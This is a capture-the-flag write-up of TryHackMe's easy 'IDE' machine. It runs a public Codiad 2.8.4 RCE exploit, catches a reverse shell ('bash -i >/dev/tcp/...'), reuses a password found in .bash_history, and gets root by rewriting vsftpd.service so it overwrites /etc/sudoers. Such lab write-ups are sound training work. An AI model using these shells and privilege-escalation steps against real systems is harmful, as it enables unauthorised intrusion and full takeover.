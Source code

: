 ```yaml
---
title : "IDE - Write Up"
date : 2021-10-16T16:15:25+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["FTP","nc","Codiad","sudo","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/ide)  | Easy  |  [bluestorm](https://tryhackme.com/p/bluestorm) and [403Exploit](https://tryhackme.com/p/403Exploit)  |


## Reconn

Hey! Welcome back!
As you may know, we start the CTFs with an `nmap` scan, so let's do the same with this one!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.233.193 -p- -sS --min-rate 5000 -n -Pn
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-16 00:11 CEST
Nmap scan report for 10.10.233.193
Host is up (0.056s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds
```
Great! We now have more information:
    · We have an FTP server running at port `21`.
    · An SSH service running on port `22`.
    · A web server on port `80`.
    · An unknown service running on `62337`.

Alright, let's try to download all the data that we can from the `FTP` server with the user `anonymous` (If you didn't know the user `anonymous` it's a default account that doesn't require a password to login on the `FTP` server).
```bash
╰─ lanfran@parrot ❯ wget -m ftp://anonymous@10.10.78.174
--2021-10-16 00:18:16--  ftp://anonymous@10.10.78.174/
           => ‘10.10.78.174/.listing’
Connecting to 10.10.78.174:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PASV ... done.    ==> LIST ... done.

10.10.78.174/.listing                 [ <=>                                                        ]     180  --.-KB/s    in 0s      

2021-10-16 00:18:16 (6.37 MB/s) - ‘10.10.78.174/.listing’ saved [180]

--2021-10-16 00:18:16--  ftp://anonymous@10.10.78.174/.../
           => ‘10.10.78.174/.../.listing’
==> CWD (1) /... ... done.
==> PASV ... done.    ==> LIST ... done.

10.10.78.174/.../.listing             [ <=>                                                        ]     178  --.-KB/s    in 0s      

2021-10-16 00:18:17 (3.11 MB/s) - ‘10.10.78.174/.../.listing’ saved [178]

--2021-10-16 00:18:17--  ftp://anonymous@10.10.78.174/.../-
           => ‘10.10.78.174/.../-’
==> CWD not required.
==> PASV ... done.    ==> RETR - ... done.
Length: 151

10.10.78.174/.../-                100%[===========================================================>]     151  --.-KB/s    in 0.1s    

2021-10-16 00:18:17 (1.15 KB/s) - ‘10.10.78.174/.../-’ saved [151]

FINISHED --2021-10-16 00:18:17--
Total wall clock time: 1.5s
Downloaded: 3 files, 509 in 0.1s (3.88 KB/s)
```
Wow! We have some weird names for the folder and the file...

So let's try to rename the `-` file to a more friendly name and see what it has inside!
```bash
╰─ lanfran@parrot ❯ mv \- data

╰─ lanfran@parrot ❯ cat data
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
Mmmm.... we know now that the user `john` has his password reseted to the default one...

Let's see what's on port `80` and port `62337`.

![loginpage](version.png)

After some research, the port `80` has just a default apache2 web server running, the insterest web page is on port `62337`.

We have a login page for `Codiad`, a web based IDE! And we also know that the version is `2.8.4`!

## Foothold - User

So, after googling something easy as `Codiad 2.8.4 exploit`, I found a public exploit to get RCE with an authenticated user! [Here's the link to the exploit](https://www.exploit-db.com/exploits/49705)

So far so good, let's run the exploit!

```bash
╰─ lanfran@parrot ❯ python3 exp.py http://10.10.233.193:62337/ john [REDACTED] 10.9.4.36 1337 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.9.4.36/1338 0>&1 2>&1"' | nc -lnvp 1337
nc -lnvp 1338
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y  
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```
After running the commands that the exploit suggest, we finally have a foothold on the machine!
```bash
╰─ lanfran@parrot ❯ nc -lnvp 1338
listening on [any] 1338 ...
connect to [10.9.4.36] from (UNKNOWN) [10.10.233.193] 46490
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
But... We can't read the user flag, because we need to escalate to user `drac` to read the flag...

So digging around the machine, we find that the user `drac` has the `.bash_history` with some information inside!
```bash
www-data@ide:/home/drac$ cat .bash_history 
mysql -u drac -p '[REDACTED]'
```
Hey! We found a password! Maybe this user reutilize the password...
```bash
www-data@ide:/home/drac$ su drac 
Password: 
drac@ide:~$ cat /home/drac/user.txt 
0[REDACTED]6
```
YES! We did it!

## Root

Now we need to escalate to root!

For this, we do the first try as in every machine `sudo -l`, and we can restart the `vsftpd` service!
```bash
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
So maybe we can exploit this service if we can edit the `vsftpd.service` file!

And yes! We can edit it!
```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
drac@ide:~$ nano /lib/systemd/system/vsftpd.service
drac@ide:~$
```
So let's edit it to execute a command:
`ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'`


This command will add our user `drac` into the `sudoers` file to run all the commands as `root`!

So after editing the file, it should look like this:
```bash
drac@ide:~$ cat /lib/systemd/system/vsftpd.service
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/sh -c 'echo "drac ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```
Great! Let's restart the service and reload the units:
```bash
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
drac@ide:~$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
drac@ide:~$ sudo /usr/sbin/service vsftpd restart
```
After this, we can check if our exploit worked!

YES! We can now run `sudo` to everything!
```bash
drac@ide:~$ sudo -l
User drac may run the following commands on ide:
    (root) NOPASSWD: ALL
```
So let's just run `sudo su` to get `root`
```bash
drac@ide:~$ sudo su
root@ide:/home/drac# id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/home/drac# cat /root/root.txt 
c[REDACTED]d
```

And we rooted the machine!

That's all from my side, hope you find this helpful!